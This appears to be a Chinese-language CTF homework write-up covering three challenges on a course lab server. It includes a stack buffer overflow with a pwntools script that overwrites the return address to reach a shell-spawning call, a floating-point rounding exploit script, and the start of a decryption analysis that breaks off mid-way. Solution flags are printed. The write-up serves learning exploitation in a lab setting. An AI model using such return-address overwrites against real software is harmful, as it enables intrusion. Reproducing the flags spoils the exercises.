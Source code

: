 * 嘗試輸入很多a之後會segmentation fault這是因為這個buffer在stack上所以蓋到了return address所以當main結束會return到一個不合法的位置才導致segmentation fault
![](https://i.imgur.com/DzirrGq.png)
* 然後再繼續看這個程式裡面的其他function會發現有個func1他會對rax裡的值跟0xCAFECAFECAFECAFE比較如果相等就會輸出Here you go並使用system("/bin/sh")開一個shell
![](https://i.imgur.com/o8br84n.png)
* 因為在main存在stack overflow的漏洞可以把return address控制為任意地址
* 所以直接把retrun address覆寫成func1中通過比較之後開shell的地方這樣執行完main之後做return就會跳到開shell的地方去開個shell從靜態分析可以知道這個位置在0x401195
* 先算一下會發現輸入24個byte之後就能蓋到return address所以只要輸入24byte的垃圾接下來的8個byte會變成return address就能把程式流程控制到後來輸入那8byte的地方
* 所以就return address寫成fun1中輸出here you go並開shell的地方就能拿到shell
```python=
from pwn import *

# p = process('./CafeOverflow')
p = remote('hw00.zoolab.org', 65534)

sh = 0x401195
payload = b'a' * 24 + p64(sh)
p.sendlineafter(' : ', payload)

p.interactive()
```
![](https://i.imgur.com/q9P0O5k.png)
>flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}
## The Floating Aquamarine
* 因為在電腦中浮點數除了1/2, 1/4, 1/8...這些以外並不能表示到非常精準只能是一個近似值
* 所以在小數點以下很多位還是會有數字像是這一題的88.88其實是88.879999....所組成的
* 因此當一個浮點數跟很大的數相乘之後會受到小數點後的數字影響而造成結果跟預期的不同
* 100000000\*88.88的結果跟99999989\*88.88的結果相當近似只差在小數點後幾位的差別
* 而且99999989\*88.88因為不是10的倍數所以跟小數點後很多位相乘之後會一直進位最後結果會比100000000\*88.88還要大
* 所以這題只要買入100000000然後賣出99999989這樣身上的負債會變成比0還大的一個數還會多11個寶石可以賣出
* 所以只要重複這樣的步驟最後身上的錢就會大於3000最後能拿到flag
```python=
from pwn import *

def buyAndSell():
    r.sendlineafter('100000000)\n', '100000000')
    r.sendlineafter('0)\n', '-99999989')
    r.sendlineafter('99999989)', '-11')

r = remote('hw00.zoolab.org', 65535)
for i in range(3):
    buyAndSell()
r.recvuntil('flag:')
print(r.recv().decode())
```
>FLAG{floating_point_error_https://0.30000000000000004.com/}
## 解密一下
* 這題題目給出了一個加密後的密文和加密的演算法所以要想辦法從密文反推回去明文是什麼
* 先看這個加密的流程做了些什麼
![](https://i.imgur.com/gQH13Py.png)
* 這邊可以看到他把flag的內容讀出來之後再用srand設定亂數之後取亂數當作key然後傳進去加密裡面把flag做加密最後輸出密文變成多少
* 再來看加密的部分做了些什麼
![](https://i.imgur.com/iMR0aPj.png)
* 明文的長度是16加密的時候把它分成兩段前8個字和後8個字分別丟進_加密去做加密
* 然後看_加密的演算法做了些什麼
![](https://i.imgur.com/fgb7rzZ.png)